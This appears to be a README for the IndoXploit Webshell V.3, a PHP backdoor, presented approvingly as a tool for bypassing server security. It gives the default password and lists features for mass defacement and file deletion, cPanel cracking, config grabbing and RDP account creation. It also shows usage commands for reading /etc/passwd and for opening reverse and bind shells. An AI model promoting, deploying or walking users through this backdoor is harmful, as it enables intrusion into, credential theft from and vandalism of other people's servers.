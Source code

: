# IndoXploit Webshell V.3

IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by **agussetyar** from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

---

## Screenshot
- login
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/indoxploit-login.PNG "Login Shell")
Default Password : **IndoXploit**

- interface
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/idx-interface.PNG "Shell Interface")
Webshell Interface

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - Read File
 usage: rf [filename]
 example: rf /etc/passwd

 - Spawn File/Tools 
 usage: spawn [name]

 [name]
- Adminer (adminer)
 - WebConsole (webconsole)
 - CGI Telnet 1 (cgitelnet1)
 - CGI Telnet 2 (cgitelnet2)
 - PHPINFO (phpinfo)

 example:
 spawn adminer
 spawn webconsole
 spawn cgitelnet1

- Jumping
usage: jumping

- Config Grabber
usage: idxconfig

 - Symlink 
 usage: symlink

 - Reverse Shell 
 [Back Connect]
 usage: rvr bc [IP] [PORT] [TYPE]
 example:
 ~~~
 rvr bc 127.0.0.1 1337 bash
 rvr bc 127.0.0.1 1337 perl
~~~

 [Bind Port]
 usage: rvr bp [PORT] [TYPE]
 example:
~~
 rvr bp 1337 perl
~~

 - KRDP - Create RDP Account (for windows server only) 
 usage: krdp

 - Logout From Shell
usage: logout

 - Kill Backdoor 
usage: killme
